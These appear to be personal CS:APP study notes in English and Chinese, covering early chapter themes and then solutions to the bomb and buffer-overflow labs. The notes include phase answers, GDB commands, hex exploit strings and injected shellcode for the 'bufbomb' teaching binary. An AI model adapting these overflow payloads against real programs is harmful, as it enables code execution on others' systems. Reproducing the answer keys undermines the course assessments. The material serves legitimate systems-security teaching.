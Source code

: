 #### 1.9 Important Themes

- Concurrency and Parrallesim
Hyperthreading, sometimes calledsimultaneous multi-threading, is a technique that allows a single CPU to execute multiple flows of control.

Thread-Level Concurrency: multi-core
Instruction-Level Concurrency: pipeline
SIMD Concurrency:special IO hardware

A pipeline can overlap phases the execution of an instruction with previous instructions.[1]
Three controls hazards: Read after write(RAW, so are the next), WAW, WAR
[1] http://www.cse.unsw.edu.au/~cs9244/06/seminars/01-gvdl.pdf

- Abstractions for computers
    files
	process
	virtual memory
	virtual machine
	
#### 1.10 Summary

### CH2. Representing and Manipulating Information
- data storage
gcc -m32 prog.c
gcc -m64 prog.c
Later in other chapters: disassembler
- you can show ascii table in shell: man ascii
Data Types
	Integer Representations

- Floating Point


----------------------------------------------------------

#### Lab

#### Lab 2
Solutions:
Border relations with Canada have never been better.
1 2 4 8 16 32
1 311或其他
4 389
7 0
IONEFG (flyers)
4 3 2 1 6 5

Intel指令集
	movslq
	https://blog.csdn.net/qq_38712943/article/details/81358799
info r
p /x *0x402470 + 8
b phase_4
disas phase_4
pmap
pvector
GDB调试技巧
	https://blog.csdn.net/transmaple/article/details/48421891

b *0x0000000000400fdf
简书: https://www.jianshu.com/p/33eb51b2024e
Postscript file: GDB: Quick reference

打印寄存器
    p $rax
注意:
	mov 0x20(%rsp),%rbx 代表赋地址
	lea 0x20(%rsp),%rbx 代表赋值
	
#### lab 3

不可修改的register: rip(除了ret)
https://www.cnblogs.com/aliflycoris/p/5746143.html
https://www.jianshu.com/p/dc41c84cef17
https://www.cnblogs.com/yhjoker/p/7623950.html

三个与栈和下一条指令有关的指令
	call=push rip; jmp 0x____
	leave 恢复保存的rbp,rsp,即 movl rbp, rsp; pop rbp
	ret = pop rip
注意事项:
	mov 0x4, %eax #move value of memory[0x4] to eax
	mov $0x4, %eax #move 0x4 to eax

~~~
按照userid=novik实验: 
./bufbomb -u novik
    0x08048c18 smoke
>>>> smoke.txt
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 18 8c 04 08

0x08048c42 fizz
>>>> fizz.txt
    -u novik
	cookie 0x2de1951f
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 42 8c 04 08 00 00
	00 00 1f 95 e1 2d
>>>> bang.txt
    -u novik
	0x55683658
>>>> bang.S
movl $0x2de1951f, 0x804d100
movl 0x804d100, %eax
movl %eax, 4(%esp)
push $0x08048c9d
ret
->
c7 05 00 d1 04 08 1f 
95 e1 2d 
a1 00 d1 04 08       
89 44 24 04          
68 9d 8c 04 08       
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
58 36 68 55
>>>> dynamite.txt
buf 0x55683658
ret 0x08048dbe
cookie 0x2de1951f
movl $0x2de1951f, %eax
movl $0x556836b0, %ebp
push $0x08048dbe
ret
>>>> shell
cat dynamite.txt | ./hex2raw | ./bufbomb -u novik
